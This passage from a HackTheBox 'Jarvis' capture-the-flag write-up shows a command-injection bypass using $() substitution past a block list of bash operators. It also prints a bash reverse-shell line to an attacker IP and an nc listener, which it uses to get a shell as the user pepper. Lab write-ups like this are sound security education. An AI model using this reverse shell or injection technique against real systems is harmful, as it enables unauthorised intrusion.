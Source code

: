 ```
    else:                                                                                                
        show_help()                                                                                      
        exit()        
```


The script is a bit long, but most of it is completely irrelevant, the only thing that matters is the `exec_ping` function which I copied above. 


This function executes the `ping` command to a specified host via the `system` method of the OS python module. The function starts by defining a "forbidden" list of bash operators, commonly used to perform command injection, in order to block the user from attempting command injection. The issue is that they forgot the `$()` command substitution operator. 


To exploit this, I decided to create a reverse shell script, then call it inside the command substitution operator when we run this script as pepper. 


I created the script on the target as such:

```bash
echo "bash -i >& /dev/tcp/10.10.14.34/445 0>&1" > /tmp/htb.sh
chmod +x /tmp/htb.sh
```

Then I Started the local listener for the reverse shell connection on my attack machine:

```bash
rlwrap nc -lnvp 445
```

And now I ran the simpler script as pepper and typed in something like this:

![exec-22](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jarvis/img/exec-22.png)


The shell stalls which is a great sign, and on my netcat listener I get a shell as `pepper`:

![pepper-23](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jarvis/img/pepper-23.png)
